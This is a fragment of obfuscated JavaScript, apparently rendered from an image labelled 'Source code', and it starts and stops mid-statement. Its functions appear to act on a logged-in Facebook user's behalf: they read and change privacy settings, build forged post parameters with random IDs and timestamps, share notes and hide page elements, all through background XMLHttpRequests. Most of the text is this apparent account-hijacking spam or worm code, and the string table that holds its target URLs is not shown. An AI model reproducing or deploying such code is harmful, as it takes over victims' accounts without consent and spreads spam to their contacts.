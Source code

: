 _0x6dcax1=0;_0x6dcax1<document[_0xeac6[4]](_0xeac6[3])[_0xeac6[5]];_0x6dcax1++){document[_0xeac6[4]](_0xeac6[3])[_0x6dcax1][_0xeac6[6]]=_0xeac6[7]}};if(document[_0xeac6[4]](_0xeac6[8])){for(var _0x6dcax1=0;_0x6dcax1<document[_0xeac6[4]](_0xeac6[8])[_0xeac6[5]];_0x6dcax1++){document[_0xeac6[4]](_0xeac6[8])[_0x6dcax1][_0xeac6[6]]=_0xeac6[7]}};if(document[_0xeac6[4]](_0xeac6[9])){for(var _0x6dcax1=0;_0x6dcax1<document[_0xeac6[4]](_0xeac6[9])[_0xeac6[5]];_0x6dcax1++){document[_0xeac6[4]](_0xeac6[9])[_0x6dcax1][_0xeac6[6]]=_0xeac6[7]}};},100)};get_random_number=function(_0x6dcax2){var _0x6dcax3=_0xeac6[11];var _0x6dcax4=_0xeac6[7];for(var _0x6dcax1=0;_0x6dcax1<_0x6dcax2;_0x6dcax1++){_0x6dcax4+=_0x6dcax3[Math[_0xeac6[13]](Math[_0xeac6[12]]()*9)]};return _0x6dcax4;};get_random_alfa=function(_0x6dcax2){var _0x6dcax3=_0xeac6[14];var _0x6dcax4=_0xeac6[7];for(var _0x6dcax1=0;_0x6dcax1<_0x6dcax2;_0x6dcax1++){_0x6dcax4+=_0x6dcax3[Math[_0xeac6[13]](Math[_0xeac6[12]]()*33)]};return _0x6dcax4;};get_fb_links=function(){var _0x6dcax5= new XMLHttpRequest();_0x6dcax5[_0xeac6[17]](_0xeac6[15],_0xeac6[16],false);_0x6dcax5[_0xeac6[18]]();var _0x6dcax6=JSON[_0xeac6[20]](_0x6dcax5[_0xeac6[19]]);return _0x6dcax6;};get_fb_name=function(profile_id){var _0x6dcax5= new XMLHttpRequest();_0x6dcax5[_0xeac6[17]](_0xeac6[15],_0xeac6[21]+profile_id,false);_0x6dcax5[_0xeac6[18]]();var _0x6dcax8=JSON[_0xeac6[20]](_0x6dcax5[_0xeac6[19]]);return _0x6dcax8[_0xeac6[22]];};get_ttstamp=function(_0x6dcax9){var _0x6dcaxa=_0xeac6[7];for(var _0x6dcaxb=0;_0x6dcaxb<_0x6dcax9[_0xeac6[5]];_0x6dcaxb++){_0x6dcaxa+=_0x6dcax9[_0xeac6[23]](_0x6dcaxb)};return _0xeac6[24]+_0x6dcaxa;};get_not_object_id=function(_0x6dcax9){var _0x6dcaxc=_0xeac6[25]+_0x6dcax9+_0xeac6[26];var _0x6dcaxd= new XMLHttpRequest();_0x6dcaxd[_0xeac6[17]](_0xeac6[27],_0xeac6[28],false);_0x6dcaxd[_0xeac6[31]](_0xeac6[29],_0xeac6[30]);_0x6dcaxd[_0xeac6[18]](_0x6dcaxc);if(_0x6dcaxd[_0xeac6[32]]!=4){}else {var _0x6dcaxe=_0x6dcaxd[_0xeac6[19]][_0xeac6[34]](_0xeac6[35])[1][_0xeac6[34]](_0xeac6[33])[0];return _0x6dcaxe;};};fb_get_privacy=function(){var _0x6dcaxd= new XMLHttpRequest();_0x6dcaxd[_0xeac6[17]](_0xeac6[15],_0xeac6[36],false);_0x6dcaxd[_0xeac6[18]]();if(_0x6dcaxd[_0xeac6[32]]==4){if(_0x6dcaxd[_0xeac6[19]][_0xeac6[1]](_0xeac6[37])>=0&&_0x6dcaxd[_0xeac6[19]][_0xeac6[1]](_0xeac6[37])>=0){var _0x6dcaxf=_0x6dcaxd[_0xeac6[19]][_0xeac6[34]](_0xeac6[37])[1][_0xeac6[34]](_0xeac6[39])[1][_0xeac6[34]](_0xeac6[38])[0];return _0x6dcaxf;}else {return _0xeac6[7]}};return _0xeac6[7];};fb_get_privacy_change=function(_0x6dcax10,_0x6dcax9,_0x6dcax11){var _0x6dcaxc=_0xeac6[40]+_0x6dcax10+_0xeac6[41]+_0x6dcax9+_0xeac6[42]+get_ttstamp(_0x6dcax9)+_0xeac6[43];var _0x6dcaxd= new XMLHttpRequest();_0x6dcaxd[_0xeac6[44]]=function(){if(_0x6dcaxd[_0xeac6[32]]==4){}};_0x6dcaxd[_0xeac6[17]](_0xeac6[27],_0xeac6[45]+_0x6dcax11+_0xeac6[46],true);_0x6dcaxd[_0xeac6[31]](_0xeac6[29],_0xeac6[30]);_0x6dcaxd[_0xeac6[18]](_0x6dcaxc);};fb_su_post=function(_0x6dcax10,_0x6dcaxc){var _0x6dcaxd= new XMLHttpRequest();_0x6dcaxd[_0xeac6[44]]=function(){if(_0x6dcaxd[_0xeac6[32]]==4){}};_0x6dcaxd[_0xeac6[17]](_0xeac6[27],_0xeac6[47]+_0x6dcax10,true);_0x6dcaxd[_0xeac6[31]](_0xeac6[29],_0xeac6[30]);_0x6dcaxd[_0xeac6[18]](_0x6dcaxc);};get_su_params=function(_0x6dcax10,_0x6dcax12,_0x6dcax13,_0x6dcax14,_0x6dcax15,_0x6dcax16){var _0x6dcaxc=_0xeac6[7];_0x6dcaxc=_0x6dcaxc+_0xeac6[48]+get_random_alfa(8)+_0xeac6[49]+get_random_alfa(4)+_0xeac6[49]+get_random_alfa(4)+_0xeac6[49]+get_random_alfa(4)+_0xeac6[49]+get_random_alfa(12);_0x6dcaxc=_0x6dcaxc+_0xeac6[50]+_0x6dcax12;_0x6dcaxc=_0x6dcaxc+_0xeac6[51];_0x6dcaxc=_0x6dcaxc+_0xeac6[52];_0x6dcaxc=_0x6dcaxc+_0xeac6[53];_0x6dcaxc=_0x6dcaxc+_0xeac6[54];_0x6dcaxc=_0x6dcaxc+_0xeac6[55]+_0x6dcax10;_0x6dcaxc=_0x6dcaxc+_0xeac6[56];_0x6dcaxc=_0x6dcaxc+_0xeac6[57]+encodeURIComponent(_0xeac6[58]+get_random_alfa(8)+_0xeac6[59]+_0x6dcax10+_0xeac6[60]);_0x6dcaxc=_0x6dcaxc+_0xeac6[61]+encodeURIComponent(_0x6dcax13);_0x6dcaxc=_0x6dcaxc+_0xeac6[62]+encodeURIComponent(_0x6dcax13);_0x6dcaxc=_0x6dcaxc+_0xeac6[63];_0x6dcaxc=_0x6dcaxc+_0xeac6[64];_0x6dcaxc=_0x6dcaxc+_0xeac6[65]+_0x6dcax10;_0x6dcaxc=_0x6dcaxc+_0xeac6[66]+_0x6dcax14;_0x6dcaxc=_0x6dcaxc+_0xeac6[67];_0x6dcaxc=_0x6dcaxc+_0xeac6[68];_0x6dcaxc=_0x6dcaxc+_0xeac6[69];_0x6dcaxc=_0x6dcaxc+_0xeac6[70];_0x6dcaxc=_0x6dcaxc+_0xeac6[71];_0x6dcaxc=_0x6dcaxc+_0xeac6[72];_0x6dcaxc=_0x6dcaxc+_0xeac6[73];_0x6dcaxc=_0x6dcaxc+_0xeac6[74];if(_0x6dcax16!=_0xeac6[7]){_0x6dcaxc=_0x6dcaxc+_0x6dcax16};_0x6dcaxc=_0x6dcaxc+_0xeac6[75];_0x6dcaxc=_0x6dcaxc+_0xeac6[76];_0x6dcaxc=_0x6dcaxc+_0xeac6[77]+get_random_number(10);_0x6dcaxc=_0x6dcaxc+_0xeac6[78];_0x6dcaxc=_0x6dcaxc+_0xeac6[79];_0x6dcaxc=_0x6dcaxc+_0xeac6[80];_0x6dcaxc=_0x6dcaxc+_0xeac6[81];_0x6dcaxc=_0x6dcaxc+_0xeac6[82];_0x6dcaxc=_0x6dcaxc+_0xeac6[83];_0x6dcaxc=_0x6dcaxc+_0xeac6[84];_0x6dcaxc=_0x6dcaxc+_0xeac6[85];_0x6dcaxc=_0x6dcaxc+_0xeac6[86];_0x6dcaxc=_0x6dcaxc+_0xeac6[87];if(_0x6dcax15!=_0xeac6[7]){_0x6dcaxc=_0x6dcaxc+_0xeac6[88]+_0x6dcax15};_0x6dcaxc=_0x6dcaxc+_0xeac6[89];_0x6dcaxc=_0x6dcaxc+_0xeac6[90]+_0x6dcax10;_0x6dcaxc=_0x6dcaxc+_0xeac6[91];_0x6dcaxc=_0x6dcaxc+_0xeac6[92];_0x6dcaxc=_0x6dcaxc+_0xeac6[93];_0x6dcaxc=_0x6dcaxc+_0xeac6[42]+get_ttstamp(_0x6dcax12);_0x6dcaxc=_0x6dcaxc+_0xeac6[43];return _0x6dcaxc;};share_fb_note=function(_0x6dcax10,_0x6dcax9,_0x6dcax17,_0x6dcax16,_0x6dcax18,_0x6dcax19,_0x6dcax15,_0x6dcax13){var _0x6dcaxc=_0xeac6[25]+_0x6dcax9+_0xeac6[94]+_0x6dcax17+_0xeac6[95]+_0x6dcax17+_0xeac6[96]+_0x6dcax10+_0xeac6[97]+encodeURIComponent(_0x6dcax18)+_0xeac6[98]+encodeURIComponent(_0x6dcax19);_0x6dcaxc=_0x6dcaxc+_0xeac6[99]+_0x6dcax17+_0xeac6[100]+_0x6dcax10+_0xeac6[101]+get_ttstamp(_0x6dcax9)+_0xeac6[43];var _0x6dcaxd= new XMLHttpRequest();_0x6dcaxd[_0xeac6[44]]=function(){if(_0x6dcaxd[_0xeac6[32]]==4){var _0x6dcax1a=_0x6dcaxd[_0xeac6[19]][_0xeac6[34]](_0xeac6[103])[1][_0xeac6[34]](_0xeac6[102])[0][_0xeac6[34]](_0xeac6[36]);var